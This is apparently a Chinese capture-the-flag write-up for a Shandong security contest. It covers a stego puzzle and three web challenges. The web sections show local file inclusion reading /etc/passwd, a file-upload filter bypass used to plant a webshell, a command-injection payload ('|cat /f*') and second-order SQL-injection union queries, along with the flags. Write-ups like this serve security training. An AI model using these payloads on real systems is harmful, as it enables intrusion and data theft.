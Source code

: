 ```yaml
---
layout: post
title: 山东新一代信息技术创新应用大赛—信息安全攻防赛项WriteUp
---
```


> 主办方服务器一直很卡，导致比赛体验不是很好，希望下次能换个高配置的服务器 :)

# Misc

## 可爱的喵喵

右键属性->细节->镜头制造商

![image-20201119223004616](https://tva1.sinaimg.cn/large/0081Kckwly1gkuur246qpj30w20sc4dv.jpg)

得到

`4D5A5747435A33334D563447535A53374E425557495A44464E5A50574D3342554D3536513D3D3D3D`

hex解密 -> base32解密 ->flag

![image-20201119223232642](https://tva1.sinaimg.cn/large/0081Kckwly1gkuutibz60j30je0bu3ze.jpg)

# Web

## web1

打开题目链接，发现只有一个Apache2的默认页面，dirsearch扫一下web目录，看看有没有什么敏感文件

![image-20201119114703077](https://tva1.sinaimg.cn/large/0081Kckwly1gkuc5xri43j311r0u0tmc.jpg)

```bash
python3 dirsearch.py -u http://47.105.128.249:35001/
```

![image-20201119115000878](https://tva1.sinaimg.cn/large/0081Kckwly1gkuc8z1102j31620tq4gi.jpg)

扫描完成后发现 `edit.php f.php upload.php`很可疑

访问http://47.105.128.249:35001/f.php?f=index.html

![image-20201119115639459](https://tva1.sinaimg.cn/large/0081Kckwly1gkucfw0j1cj31cf0u0dph.jpg)

发现成功包含文件，目测存在任意文件包含+读取，于是尝试读取/etc/passwd

经测试发现未开启远程包含

这里使用file协议读取

http://47.105.128.249:35001/f.php?f=file:///etc/passwd

![image-20201119120407487](https://tva1.sinaimg.cn/large/0081Kckwly1gkucnmzokjj30sq0cqn0h.jpg)

再利用PHP伪协议读取upload.php源代码审计一波

http://47.105.128.249:35001/f.php?f=php://filter/read=convert.base64-encode/resource=upload.php

upload.php

```php
<?php
$res = [];
if ($_POST["filename"] == '') {
    $res['state'] = false;
    $res['info'] = "请上传txt格式文件";
    echo json_encode($res);
    exit();
} else {
    $file_name = $_POST['filename'];
    $file_ext = strrchr($file_name, '.');
    if($file_ext == '.php'){
        $res['state']=false;
    	$res['info']="文件名非法！";
    	echo json_encode($res);
    	exit();
    }
    $file_name = preg_replace("/[^a-zA-Z0-9.]+/","",$file_name);
    if($file_name === "") {
    	$res['state']=false;
    	$res['info']="要传好好传，别搞啊";
    	echo json_encode($res);
    	exit();
    }
    $file_path = './Uploads/'.$file_name;
    $fileContent = $_POST['filecontent'];

    if(strpos($fileContent,'eval')){
        $res['info']="检测到恶意代码，禁止上传！";
        echo json_encode($res);
        exit();
    }
    
    if(strpos($fileContent,'assert')){
        $res['info']="检测到恶意代码，禁止上传！";
        echo json_encode($res);
        exit();
    }
  
    $a = explode('.', $_POST['filename']);
    $ext = $a[count($a)-1];
    if (strtolower($ext)=='php') {
        file_put_contents($file_path, $fileContent);
    }
    else {
        file_put_contents($file_path, $fileContent);
    }
    $res['state'] = true;
    $res['info'] = '文件保存至'.$file_path;
    echo json_encode($res);
    exit();
}
```

发现只过滤了php后缀，可以直接利用php3绕过上传webshell

但奇怪的是前端并没有找到上传表单，索性看了下upload.js

![image-20201119223913843](https://tva1.sinaimg.cn/large/0081Kckwly1gkuv0hetvkj30uo0rkte4.jpg)

```javascript
$(function () {
    $("#submit").on("click", function () {
        var fileName = $('#file_name').val();
        var fileContent = $('#file_content').val();
        $.ajax({
            url: "/upload.php",
            method: "POST",
            data: {filename: fileName, filecontent: fileContent},
            success:function (data, status) {
                result = JSON.parse(data);
                var notice = $('<div class="alert m-5" role="alert">' + result["info"] + '</div>');
                if (result["state"]) {
                    notice.addClass("alert-success");
                } else
                    notice.addClass("alert-danger");
                if ($('div.alert')) {
                    $('div.alert').remove();
                }
                $('form.m-5').before(notice);
            }
        });
    });
    }
);
```

![image-20201119123808460](https://tva1.sinaimg.cn/large/0081Kckwly1gkudn34i4bj30ze0aggne.jpg)

发现定义了上传过程，需要POST传参filename 和 filecontent，简单构造一下请求包

这里我们就不上传shell了，换用php文件包含

![image-20201119130524566](https://tva1.sinaimg.cn/large/0081Kckwly1gkueff7y5kj31eg0u0h1p.jpg)

换成小马重新上传，蚁剑连接

![image-20201119130858625](https://tva1.sinaimg.cn/large/0081Kckwly1gkuej7cwwlj316m0u0tai.jpg)

​	`flag{3676a83707feca6c9da2a058582d7191}`

> 其实web1有很多解法，下面来说一说其他的解法
>
> 1）构造上传包->上传txt（内容为一句话马）->f.php本地文件包含->getshell->get flag
>
> 2）利用php伪协议读源码 http://47.105.128.249:35001/f.php?f=php://filter/read=convert.base64-encode/resource=upload.php然后审计上传函数，构造上传包上传php3后缀的马->get flag

## web2

php任意代码执行无过滤

![image-20201119224047154](https://tva1.sinaimg.cn/large/0081Kckwly1gkuv22wpp4j30mc0b675y.jpg)

构造payload

http://47.105.128.249:35002/?target=127.0.0.1|cat /f*

`flag{40e9a8e44ed6216f6455147d354c8276}`



# web3

![image-20201119225348834](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvfn1dfbj30cw098wep.jpg)

![image-20201119225136950](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvdd4x2pj31180a4tel.jpg)

发现有注册和登录 并且注册之后登录会显示出同年龄的人 猜测后台sql语句为：

`select * from where age='100'`

在注册的时候会有insert操作，但是后来测试了发现有转义，由此基本判断为二次注入

![image-20201119225719819](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvjakej9j30ey0bm0tj.jpg)

在年龄处构造payload 使其查询数据并判断字段数量

1' order by 4# //返回正常

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gkuvregvu7j30gc15w781.jpg" alt="image-20201119230506211" style="zoom:50%;" />

1' order by 5# //无返回

![image-20201119230812410](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvulowlbj30gs0ea0u1.jpg)

知道共有4个字段，union select 1,2,3,4 发现页面只回显了2

剩下的依次查询库名，表名，字段名就可以了

```sql
-1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema=0x74657374 -- z#
```

![image-20201119232950246](https://tva1.sinaimg.cn/large/0081Kckwly1gkuwh4ogk8j31m60e0acw.jpg)

```sql
-1' union select 1,fl44g,3,4 from flaaag-- z#
```

![image-20201119233249667](https://tva1.sinaimg.cn/large/0081Kckwly1gkuwk8k2ekj31oq0g0wia.jpg)

# Re

